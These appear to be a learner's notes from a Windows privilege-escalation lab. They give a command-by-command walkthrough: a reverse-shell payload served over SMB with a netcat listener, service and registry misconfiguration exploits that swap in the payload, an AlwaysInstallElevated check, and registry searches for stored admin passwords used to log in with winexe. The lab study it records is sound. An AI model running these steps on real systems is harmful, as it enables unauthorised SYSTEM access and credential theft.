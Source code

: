 ## Windows PrivEsc

# 1- Generate a Reverse Shell Executable:

    - generate metasploit payload
    - host the payload so you can download it <sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py $USER .>
    - copy it to target machine <copy \\$VPN_IP\$USER\reverse.exe C:\PrivEsc\$PAYLOAD.exe>
    - listen for connections <sudo nc -nvlp 53>
    - run the payload <path\to\payload.exe>

---

# 2- Service Exploits - Insecure Service Permissions $SERVICE_NAME=daclsvc :

    - <C:\PrivEsc\accesschk.exe /accepteula -uwcqv $USER $SERVICE_NAME>:
    	accesschk.exe -> allows you to view permissions of files
    	/accepteula   -> allows you to specify the user without asking for confermation
    	-u   -> for selecting the user
    	-w   -> for getting objects that users can write
    	-c   -> for getting objects that users can change
    	-q   -> for getting objects that users can see the output
    	-v   -> what kind of access the user has for that object

    - query service configs <sc qc daclsvc>
    - change the BINARY_PATH_NAME to payload path <sc config $SERVICE binpath= "\"path\to\payload.exe\"">
    - start another netcat listener <sudo nc -nlvp 53>
    - start the service from cmd which will runs as root <sc start daclsvc>

---

# 3- Service Exploits - Unquoted Service Path $SERVICE_NAME=unquotedsvc:

    - get the binary path of the service <sc qc unquotedsvc>
    - "RW BUILTIN\Users" which means the user can read and write in this directory
    - copy the payload to the service folder and update his name where it can runs by the sys <copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe">
    - start the service <net start unquotedsvc>

---

# 4- Service Exploits - Weak Registry Permissions $SERVICE_NAME=regsvc:

    - NOTE: Regestry contains paths for configuration of the hardware and software
    - get the path of the service <sc qc regsvc>
    - get the permissions of the service <C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc>
    - Here there is NT AUTHORITY\INTERACTIVE which means all the logged users has the access to all keys
    - so we need to add new regestry who have the path to reverse shell script <reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f>
    -start the service <net start regvc>

---

# 5- Service Exploits - Insecure Service Executables $SERVICE_NAME=filepermsvc:

    - query the serivce path <sc qc filepermsvc>
    - check the permissions of that file <C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe">
    - we get {RW Everyone \ FILE_ALL_ACCESS} which means every one can read and right to this file
    - copy the payload <copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y>
    - start the service <net start filepermsvc>

---

# 6- Registry - AutoRuns:

    - query the programe path <reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run>
    - after using the followig command <C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"> we get {RW Everyone \ FILE_ALL_ACCESS} so everyone can read and write to this file
    - repplace the program.exe with the pyload <copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y>
    - well this time we use <rdesktop $MACHINE_IP> bcz we replaced the payload with program that automatically run

# 7- Registry - AlwaysInstallElevated

    here we will query the value "AlwaysInstallElevated" from registry key "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" which will check if normal user to install programs to admin level
    <reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated>
    the return of this command is (AlwaysInstallElevated  REG_DWORD    0x1) 0x1 means 1 so yes normal can user can install programs to admin level

# 8- Passwords - Registry

    in this task we will search for the password in the regestry key usign this command <reg query HKLM /f password /t REG_SZ /s>

    /f means find or search for password
    /t means the type of data
    /s means search the entire registry

    <reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"> this command will find the admin autologon password that was stored in reg key

    after finding the password use the following command to get cmd as an admin <winexe -U 'admin%password' //10.10.85.31 cmd.exe>
